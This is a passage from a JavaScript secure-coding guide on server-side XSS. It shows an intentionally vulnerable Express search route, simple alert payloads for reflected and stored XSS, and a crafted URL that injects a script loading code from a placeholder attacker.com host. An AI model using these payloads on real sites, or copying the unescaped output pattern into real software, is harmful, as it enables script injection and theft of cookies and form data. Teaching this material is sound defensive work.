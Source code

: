 Server XSS
==========

As said before "Server XSS" occurs when untrusted data is included in an HTML
response generated by the server. User input is always considered _untrusted_
and _unsafe_ data and it is the most common source of malicious payloads.

Users can supply data to the server through the URL (e.g. HTTP `GET` request) or by
filling a form (e.g. HTTP `POST` request).

URL parameters are usually used by search engines to send searching keywords to
the server as you can see in Google: your keywords will be visible in the `q`
URL parameter:

```
https://www.google.pt/search?q=JS+SCP
```

Following the HTTP request work-flow it will arrive on the server and the value
or `q` parameter will be used to compute the searching results.
Let's assume that there are no results matching your searching criteria. A
common approach to this use case is to write on the screen:

```
No results found for "JS SCP"
```

The HTTP request/response is completed and we can easily guess what operations
were done by the server. The following example, illustrates them using an
[Express Node.js web application framework][] router:

```javascript
const express = require('express');
const db = require('../lib/db');
const router = express.Router();

router.get('/search', (req, res) => {
  const results = db.search(req.query.q);

  if (results.length === 0) {
    return res.send('<p>No results found for "' + req.query.q + '"</p>');
  }

  // ...
});
```

The `JS SCP` keywords cause no problem, but what if we do search for
`<script>alert(XSS)</script>`?
Th URL will looks like:

```javascript
https://www.google.pt/search?q=<script>alert(XSS)</script>
```

and assuming that there are no results also to this searching keywords, the
server's answer will be:

```html
<p>No results found for "<script>alert(XSS)<%2Fscript>"</p>
```

After receiving and parsing server's HTTP response, you will see written on the
page `No results found for` and a modal window like the one below: your payload
was successfully executed.

<div style="text-align: center">
<img alt="XSS payload execution" src="./images/xss-alert.png" />
</div>

It may look not so bad as "we know" that our searches are not persisted
server-side (and so this is also known as Non-Persistent XSS). This way it won't
affect any other users. Well, an attacker will have only to share the URL on a
side channel like email, social networks maybe with a more "meaningful" payload:

```
https://www.google.pt/search?q=<script>s=document.createElement("script"),
s.src="//attacker.com/ms.js",document.body.appendChild(s);<%2Fscript>
```

In this case the payload, creates a new `<script>` element which when appended
to the Document body, will load an external arbitrary JavaScript file, under the
attacker's control. This malicious script will execute on page's context with
granted access to everything a legit script has e.g. cookies, local storage,
form data, etc.

For completeness, users' posts/comments on social networks are great examples of
data sent to the server via an HTTP `POST` request. This data won't be visible
in the URL as it is transfered in the request's message body but the work-flow
is pretty much the same (little differences applies on how the server reads
this data).

Let's say we want to share on a social network how awesome this book is, posting
the following content:

```
Hey guys you definetly read the JS SCP guide!
<script>alert('It is awesome!')</script>
```

In this case we expect our post/comment to be stored, perhaps on a database,
so that it will be available to other users and for later readings. This fits a
Stored XSS scenario: the payload is stored server-side and then served to
other users.